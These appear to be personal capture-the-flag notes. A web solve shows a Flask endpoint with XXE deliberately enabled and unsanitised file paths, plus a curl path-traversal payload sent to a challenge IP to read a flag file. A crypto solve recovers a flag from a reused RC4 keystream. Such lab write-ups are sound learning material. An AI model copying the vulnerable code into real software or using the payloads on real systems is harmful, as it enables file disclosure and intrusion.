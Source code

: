 
### RICK -  WEB

![[Pasted image 20250531001111.png]]

xxe works , retrived /proc/environ . main.py no flags , asked up gpt for possible locations ,

- main.py
```
@auth.route('/data', methods=['POST'])
def process_data():
    # Decode the incoming XML data
    xml_data = request.data.decode('utf-8')
    parser = ET.XMLParser(resolve_entities=True)
    root = ET.fromstring(xml_data, parser=parser)
    try:
        # Parse XML data with lxml, allowing external entity resolution
        # Enable external entity resolution
        # parser = ET.XMLParser(resolve_entities=True)
        #  Parse the XML with XXE vulnerability enabled
        # root = ET.fromstring(xml_data, parser=parser)

        # Extract the user ID from the XML
        user_id = root.find('ID').text
        print(user_id)
        details = open(f'static/details/{user_id.strip()}').read()
    except ET.XMLSyntaxError:
        # If parsing fails, return the raw XML (this simulates error handling)
        details = __import__('os').getcwd()
    except:
        details = f"Current working directory: {__import__('os').getcwd()}"

    response = make_response(details)
    return response
                        
```



```
curl -X POST http://4.240.104.200:5004/data \
-H "Content-Type: application/xml" \
--data '<?xml version="1.0"?><data><ID>../../../../app/.flag</ID></data>'
```



### AGAIN CRYPTO

- used up chatgpt to getit 

```
from Crypto.Cipher import ARC4
import binascii
def xor_bytes(a, b):
    return bytes([x ^ y for x, y in zip(a, b)])
flag_ct_hex = "70cb56bc40d8c59485eb174afa1fc998984de858e6e642d9526ccfda12"
boom_ct_hex = "79de558663ade6ac9bd8353fe46fbf84b33dd928fac331e84e56bcec2c98"
flag_ct = bytes.fromhex(flag_ct_hex)
boom_ct = bytes.fromhex(boom_ct_hex)
boom_pt = b"A" * 14 + b"C" * 16
keystream = xor_bytes(boom_ct, boom_pt)
flag = xor_bytes(flag_ct, keystream)
print("Recovered flag:", flag)
```
